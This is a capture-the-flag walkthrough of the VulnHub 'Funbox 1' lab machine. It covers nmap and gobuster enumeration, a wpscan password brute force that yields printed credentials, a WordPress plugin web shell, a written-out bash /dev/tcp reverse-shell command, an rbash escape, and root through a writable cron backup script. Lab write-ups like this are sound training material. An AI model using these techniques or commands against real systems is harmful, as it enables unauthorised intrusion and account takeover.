Funbox 1    (Source: https://vulnhub.com/entry/funbox-1,518/)

Let's start by finding out what our target's IP address is.

    nmap -sn 192.168.240.0/24

        -sn     -->     Skip port scan

        ..0/24  -->     Scan the entire subnet



    192.168.240.1 --> Host machine / virtual router (gateway)
    
    192.168.240.2 --> DHCP server
    
    192.168.240.3 --> Attacker VM (Kali)
    
    192.168.240.16 --> Target VM

Now that we know that the machine's IP address is 192.168.240.16, we can try to determine which ports are open for connections.

I will use the following command.

    nmap -p- -T 4 192.168.240.16

        -p-     -->     Determines all open ports

        -T 4    -->     Sets the timing option to 4 (default: 3)



From the picture above we can see that FTP, SSH, HTTP & MySQLX are running on that machine.

MySQLX is a plugin that enables MySQL to act as a Document Store, allowing developers to store and query JSON data more flexibly using the X DevAPI and a faster protocol.

Now the next step for me would be to try and figure out which version of the respective of software I am dealing with.

I will use this command to try and learn about the software versions.

    nmap -p 21,22,80,33060 -sVC -T 4 192.168.240.16 -oN results.txt

        -p [port-list]  --> Scans only the ports specified by the user

        -sVC            --> Enables service version detection and runs nmap default script

        -T 4            --> Sets the timing option to 4

        -oN             --> Saves the ouput to a file called results.txt (in my case)



You can also view the results.txt file here: 

Interestingly the scan says "Did not follow redirect to http://funbox.fritz.box/"

This suggests that we need to add "funbox.fritz.box" as an entry to 192.168.240.16 in our /etc/hosts file.

    sudo nano /etc/hosts
    Enter your password:

        192.168.240.16  funbox.fritz.box

After adding the entry, I'd say a next good step would be to check out the website.

From what we can see from the picture below, the site seems to be an ordinary blog site. 



But I did find one post by an user called "admin". Thats most likely going to be a real user on the system.

(It's on http://funbox.fritz.box/index.php/2020/06/19/hello-world/ on the website.)

If we backtrace just a little bit, we can see that the nmap scan found one disallowed entry (/secret/) in the robots.txt file

If we try to visit the site...



we get this.

And just to be sure, I also checked the page source code.

I also went back to the main landing page of the website and found 2 Base64-encoded strings:

    'VGhpcyBpcyBub3QgYSBDVEYtR2FtZS4gVGhpcyBpcyBhIHJlYWxsaWZlIGJveC4='             -->  'This is not a CTF-Game. This is a reallife box'
    
    'WW91IHJlYWxseSBoYXZlIDIgdHJ5IGhhcmRlci4gVGhpcyBpc3Qgbm90IGEga2lkZHlib3gu'     -->  'You really have 2 try harder. This is not a kiddybox.'

Let's see if we can find anything interesting through directory enumeration.

I will use gobuster, since it's a tool I like and am relatively comfortable with.

    gobuster dir -u http://funbox.fritz.box -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt



Right of the bat we can see that this site is using Wordpress. It even says so on the webiste - I totally overlooked that!

There is this awesome tool for wordpress called "wpscan". Let's try to find out more using wpscan!

I will use this command:

    wpscan --url http://funbox.fritz.box -e u,vp,vt -o wpscan.txt

        --url   --> Defines the URL

        -e      --> Defines what to find (--enumerate)

        -o      --> Outputs the results into a file called wpscan.txt

We found one new username: joe

We can now use wpscan to try and crack the password of 'admin' and 'joe'

I will use this command:

    wpscan --url http://funbox.fritz.box -U admin,joe -P /usr/share/wordlists/rockyou.txt

        --url   -->  Defines the URL

        -U      -->  Username list

        -P      --> In this case, it uses /usr/share/wordlists/rockyou.txt as a dictionary



And it worked! We now know the u:p combinations: joe:12345 & admin:iubire.

We found a login page through directory enumeration earlier. If we can log into the admin account, we can take a look at the sites back-end.

Aaaand...



we're in!

We can now freely view and edit the site using the built-in theme editor. (http://funbox.fritz.box/wp-admin/theme-editor.php)

Now the next question is: how can we achieve command execution on this server?

We could try to inject a PHP payload into 404.php and then trigger it by trying to visit a page, which doesn't exist.



Looks like that didn't work.

Let's try plugins next.

Creating the plugin...



Inserting a payload...



Zipping it...



And now we can upload it.

    In WordPress: Plugins   -->     Add New     -->     Upload Plugin

To test if it works, we need to go to http://funbox.fritz.box/wp-content/plugins/shell-plugin/shell.php?cmd=

Aaand...



it works! Now we can try to get a reverse shell on this machine.

First we need to start a listener.



Now we can execute our command: shell.php?cmd=bash -c 'bash -i >& /dev/tcp/192.168.240.3/4444 0>&1'

That didn't work. I tried other syntaxes but nothing worked for me.

We did get credentials for the users on the system, SSH is open, why not try logging in as those users with those credentials.

I will first try admin:iubire and then joe:12345



So the credentials for admin did not work, but those for joe did.

Let's explore the system a bit.

I quickly notices that I was in something called '/bin/rbash'. I quickly learned that this is a type of restricted bash shell, so escaping it is a must.

Escaping it was easier than I thought. All I had to do was type 'bash'.

(Also, joe may not run sudo on funbox)

I quickly found a mail called 'mbox'



It talks about a backupscript. Let's look for it, maybe we can find something interesting in it?

Since I couldnt use 'locate' i used this:

    find / -name "*backup*" 2>/dev/null



That's definitely not suspicious..hidden in a home directory..

Let's see what we can do with it.



We can read and write to it. Let's modify it to our liking.



Now we wait for it to execute.



I think what happened here, is that the root user periodically executes the script. I tried looking for whatever executes that script, but I could not find it.
Thank you for reading!